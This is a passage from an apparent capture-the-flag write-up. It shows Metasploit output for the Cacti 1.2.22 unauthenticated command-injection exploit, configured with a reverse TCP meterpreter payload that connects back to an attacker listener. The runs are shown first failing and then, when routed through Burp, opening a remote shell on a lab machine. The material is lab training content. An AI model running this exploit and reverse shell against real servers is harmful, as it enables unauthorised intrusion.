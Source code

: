 ```

Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

When I run this, it finds it vulnerable, sends a stager, but fails to return a session:

```

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Exploit completed, but no session was created.

```

The weird thing is, when I send this through Burp to see what’s happening, it works:

```

msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Sending stage (1017704 bytes) to 10.10.11.211
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.211:59692) at 2023-04-29 17:25:14 -0400

meterpreter >

```
